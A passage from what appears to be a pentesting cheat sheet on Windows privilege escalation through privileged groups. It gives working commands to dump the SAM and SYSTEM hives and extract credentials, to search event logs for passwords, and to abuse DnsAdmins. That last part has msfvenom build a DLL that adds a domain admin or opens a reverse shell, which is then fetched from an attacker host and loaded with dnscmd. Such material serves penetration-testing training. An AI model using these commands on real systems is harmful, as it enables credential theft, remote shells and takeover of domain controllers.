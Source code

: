 ##### Backing up SAM and SYSTEM 

- `reg save HKLM\SYSTEM SYSTEM.SAV`
- `reg save HKLM\SAM SAM.SAV`

##### Extract the creds

- We can use secretdumps `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL` or the ps module DSInternals  
```
PS C:\user> Import-Module .\DSInternals.psd1
PS C:\user> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\user> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=domain,DC=local' -DBPath .\ntds.dit -BootKey $key
```
- *Note: We can also use [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) to copy the files*

### Event log readers

- `net localgroup "Event Log Readers"`
- `wevtutil qe Security /rd:true /f:text | Select-String "/user"` search Security logs (credentials could be dropped this way)
- `Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` Another way to do the same thing
- It is also worth to check PowerShell Operational logs

### DnsAdmins

- Using this group privileges, it is possible to use [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) to specify the path of a DLL plugin.
- `Get-ADGroupMember -Identity DnsAdmins` to confirm group membership
- `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll` we generate a dll with msfvenom that will add a user or we can make one that will get us a shell as admin `msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o shell.dl`
- Do not forget to launch a listener if you use the reverse shell `rlwrap nc -lnvp 4444`
- Serve the dll using python web server `python3 -m http.server 80` 
- Download the file in the target `wget "http://Attacking-machine-IP/adduser.dll" -outfile "adduser.dll"` (in powershell)  
- `dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll` load custom dll (in CMD)  
![image](https://user-images.githubusercontent.com/96747355/164776674-cd278ef1-2f02-456f-9038-2a37698c1efa.png)  
- `sc stop dns` 
- `sc start dns`
- `net group "Domain Admins" /dom` check that we have the priv (or catch the shell)

### Hyper-V Administrators

- CVE-2018-0952
- CVE-2019-0841
- [Hyper V admin EOP - decoder it](https://github.com/decoder-it/Hyper-V-admin-EOP/blob/master/hyperv-eop.ps1)
- Has been mitigated since March 2020
